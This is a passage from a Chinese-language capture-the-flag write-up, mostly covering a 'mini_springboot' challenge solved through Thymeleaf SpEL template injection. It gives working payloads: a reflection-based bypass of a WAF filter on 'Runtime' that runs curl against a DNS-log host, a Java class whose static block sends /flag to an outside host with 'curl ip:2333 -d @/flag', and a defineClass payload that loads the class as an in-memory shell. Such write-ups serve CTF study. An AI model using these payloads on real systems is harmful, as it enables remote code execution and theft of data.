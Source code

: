 ```python
     if j=='~':
       flag=flag[:-1]+chr(ord(flag[-1])+1)
       print(flag)
       sys.exit(0)
```

跑出密码`cd51c1005cab68be2f7e6112a4de3e89`后登录得到 flag

# mini_springboot | hahaha | done

提示 springboot +模板注入

猜测使用的 Thymeleaf,测试后发现在路径中存在注入,但是有 waf,过滤了 Runtime,还有 new 

最开始想的用反射绕

```
http://49.235.72.127:8080/__${T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String)).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),"curl q9vl5b.dnslog.cn")}__::assadasd.asdas
```

命令执行成功了但是没有利用成功,测了下因为存在`,`或`{`会报错

换种思路:利用 spel 注入内存马

demo.java

```java
import java.io.IOException;
public class demo {
static{
        try {
                Runtime.getRuntime().exec("curl ip:2333 -d @/flag");
        } catch (IOException e) {
                e.printStackTrace();
        }
}
}
```

```java
public static void main(String[] args) throws IOException {
    byte[] bytes = Files.readAllBytes(Paths.get("target\\classes\\demo.class"));
    String encode = com.sun.org.apache.xerces.internal.impl.dv.util.HexBin.encode(bytes);
    System.out.println(encode);
}
```

```
T(org.springframework.cglib.core.ReflectUtils).defineClass("demo",T(com.sun.org.apache.xerces.internal.impl.dv.util.HexBin).decode("十六进制编码"),T(org.springframework.util.ClassUtils).getDefaultClassLoader())
```
